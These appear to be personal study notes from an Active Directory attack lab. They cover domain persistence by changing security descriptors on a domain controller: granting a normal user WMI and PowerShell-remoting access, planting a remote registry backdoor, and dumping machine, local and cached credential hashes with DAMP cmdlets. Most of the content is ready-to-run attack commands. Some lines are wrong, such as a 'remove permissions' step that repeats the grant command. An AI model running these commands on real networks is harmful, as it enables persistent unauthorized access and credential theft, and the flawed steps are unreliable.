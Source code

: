 
We will make a normal user privilege elevated in such a way that it can execute WMI queries on DC 

WMI authentication consists of two parts:
1. We must have privilege to connect to dcorp-dc.domain.local
2. We must have privilege to connect to namespace
*Hence we need to modify ACL of two components*

***GUI:***
For doing this watch DP5::6:42 

***Scripts:***
- Load Set-RemoteWMI in the current session which having Domain Admin privileges.
	`. .\Set-RemoteWMI.ps1`
- ACLs can be modified to allow non-admin users access to securable objects
	- On local machine for student1
		`Set-RemoteWMI -UserName student1 -Verbose`
	- On remote machine for student1 without explicit credentials:
		`Set-RemoteWMI -UserName studenttttttt1 -ComputerName dcorp-dc.domain.local -namespace 'root\cimv2' -Verbose`
	- On remote machien with explicit credentials. Only root\\cimv2 and nested namespaces:
		`Set-RemoteWMI -UserName studenttttttt1 -ComputerName dcorp-dc.domain.local -Credential Administrator -namespace 'root\cimv2' -Verbose`
	*After this you will have full controls and to remove those permissions you need to execute next command*
	- On remote machine remove permissions:
		`Set-RemoteWMI -UserName studenttttttt1 -ComputerName dcorp-dc.domain.local -namespace 'root\cimv2' -Verbose`


## ACLs - Security Descriptors - PowerShell Remoting
`Set-RemotePSRemoting.ps1` is an POC script 

- On local machine for student1
	`Set-RemotePSRemoting -UserName student1 -Verbose`
- On remote machine for student1 without credentials
	`Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc.domain.local -Verbose`
- On remote machine, remove the permissions:
	`Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc.domain.local -Remove`


## ACLs - Security Descriptors - Remote Registry
***Load `Add-RemoteRegBackdoor & Get-RemoteMachineAccountHash` in the current session***
- Using DAMP, with admin privs remote machine
	`Add-RemoteRegBackdoor -ComputerName dcorp-dc.domain.local -Trustee student1 -Verbose`
	*Modify the permission on acquired registry keys and services.*
- As student1, retrive machine account hash:
	`Get-RemoteMachineAccountHash -ComputerName dcorp-dc.domain.local -Verbose`
	*Then we can start extracting information.*
- Retrive local account hash:
	`Get-RemoteLocalAccountHash -ComputerName dcorp-dc.domain.local -Verbose`
- Retrive domain cached credentials:
	`Get-RemoteCachedCredential -ComputerName dcorp-dc.domain.local -Verbose`
